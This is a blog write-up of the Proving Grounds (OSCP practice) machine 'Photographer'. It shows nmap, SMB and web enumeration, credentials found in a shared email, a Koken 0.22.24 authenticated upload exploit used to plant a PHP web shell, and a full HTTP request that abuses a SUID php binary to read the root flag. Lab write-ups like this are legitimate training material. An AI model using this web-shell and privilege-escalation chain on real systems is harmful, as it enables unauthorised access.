 ```yaml
---
title: "Proving Grounds (OSCP) - Photographer"
date: 2023-04-15T10:42:27+03:00
draft: false
tags: ["oscp"]
---
```


I've started my OSCP journey a while ago, and I wanted to try the PG machines, this is the first one that I've tried. The machine is fairly straightforward and it's labeled easy.

I've started with a simple `nmap` scan, which hinted that this Linux machine is part of an Active Directory.

```bash
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 414daa1886948e88a74c6b426076f14f (RSA)
|   256 4da3d07a8f64ef82452d011318b7e013 (ECDSA)
|_  256 1a017a4fcf9585bf31a14f1587ab94e2 (ED25519)
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Photographer by v1n1v131r4
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
8000/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: daisa ahomi
|_http-generator: Koken 0.22.24
Service Info: Host: PHOTOGRAPHER; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

On the port `80` we have a simple web page which is more or less just a placeholder of a template, but on the `8000` we have a functional website build with `Koken`

```
# Versions for :80
http://192.168.160.76:80/ 
[200 OK] Apache[2.4.18], 
Country[RESERVED][ZZ], HTML5, 
HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], 
IP[192.168.160.76], 
JQuery, Script, 
Title[Photographer by v1n1v131r4]

# Versions for :8000
http://192.168.160.76:8000/
[200 OK] Apache[2.4.18], 
Country[RESERVED][ZZ], HTML5, 
HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)],
IP[192.168.160.76], JQuery[1.12.4], 
Meta-Author[daisa ahomi], 
MetaGenerator[Koken 0.22.24],
Script, Title[daisa ahomi], 
X-UA-Compatible[IE=edge]
```

I immediately searched for exploits for `Koken 0.22.24`, and found this one: https://www.exploit-db.com/exploits/48706

This is `authenticated` exploit, so it hinted that I must look further to get some credentials.

Upon scanning the Active Directory (`139,445`) I found public shares, one of which was non-default `sambashare`.

```bash
$ smbclient -N -L 192.168.160.76           
Sharename       Type      Comment
---------       ----      -------
print$          Disk      Printer Drivers
sambashare      Disk      Samba on Ubuntu
IPC$            IPC       IPC Service (photographer server (Samba, Ubuntu))
```

I explored it and found 2 files, one was an email in a `txt` format and the other one was zipped WordPress site, I've scanned the WordPress source code with `gf` (https://github.com/tomnomnom/gf) but found nothing. The mail thought had an interesting text inside that hinted two users and suggestion for a password.

```bash
agi@photographer.com - Agi Clarence
daisa@photographer.com - Daisa Ahomi
```

I found the password for the user `daisa@photographer.com` in the content of the mail. (It is very simple!)

After that, I logged into the `Koken's` Admin Panel and uploaded a simple PHP shell using the previously mentioned exploit. I could read the `user/local.txt` file that yielded the user own flag.

The root was pretty straightforward, upon scanning for `SUID` binaries, I found that `/usr/bin/php7.2` was such, and a simple request with the previous active shell yielded me the root flag.

```bash
GET /storage/originals/4f/38/image.php?cmd=/usr/bin/php7.2+-r+'readfile("/root/proof.txt")%3b' HTTP/1.1
Host: 192.168.210.76:8000
Upgrade-Insecure-Requests: 1
User-Agent: ...
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: koken_session_ci=...
Connection: close
```
